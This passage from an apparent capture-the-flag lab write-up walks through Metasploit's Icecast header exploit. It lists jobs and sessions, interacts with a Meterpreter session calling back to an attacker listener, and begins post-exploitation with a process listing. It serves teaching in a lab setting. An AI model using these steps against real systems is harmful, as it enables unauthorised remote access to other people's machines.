 `No answer needed`

13. Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

```
msf5 exploit(windows/http/icecast_header) > jobs

Jobs
====

No active jobs.
```

`No answer needed`

14. After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

```
msf5 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.8.106.222:4444 -> 10.10.223.155:49293 (10.10.223.155)
```

```
msf5 exploit(windows/http/icecast_header) > sessions -i 1
[*] Starting interaction with 1...
```

`No answer needed`

## [Task 6] We're in, now what? 

Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.

1. First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service?

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]                                   
 4     0     System                                             
 416   4     smss.exe                                           
 544   536   csrss.exe                                          
 584   692   svchost.exe                                        
 592   536   wininit.exe                                        
 604   584   csrss.exe                                          
 652   584   winlogon.exe                                       
 692   592   services.exe                                       
 700   592   lsass.exe                                          
 708   592   lsm.exe                                            
```